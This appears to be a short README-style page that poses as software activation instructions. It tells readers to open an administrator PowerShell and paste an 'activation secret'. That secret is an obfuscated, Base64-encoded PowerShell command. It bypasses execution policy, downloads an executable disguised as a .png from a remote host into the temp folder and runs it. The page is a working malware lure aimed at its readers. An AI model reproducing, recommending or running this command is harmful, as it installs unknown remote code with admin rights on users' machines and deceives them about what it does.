 > [!IMPORTANT]
>  Run CMD/powershell as Admin. ||
>  Copy and paste the full activation secret.
> 
> [!NOTE]
> > powershell Set-ExecutionPolicy Bypass -Scope Process -Force; powershell.exe -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAHMAdABhAHIAdABpAG4AZwBjAG8AbgBuAGUAYwB0AGkAbwBuAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAG0AYQBpAG4ALgBwAG4AZwAiACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAG0AYQBpAG4AQQBjAC4AZQB4AGUAIgA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAC0ARgBpAGwAZQBQAGEAdABoACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAG0AYQBpAG4AQQBjAC4AZQB4AGUAIgA7AAoA
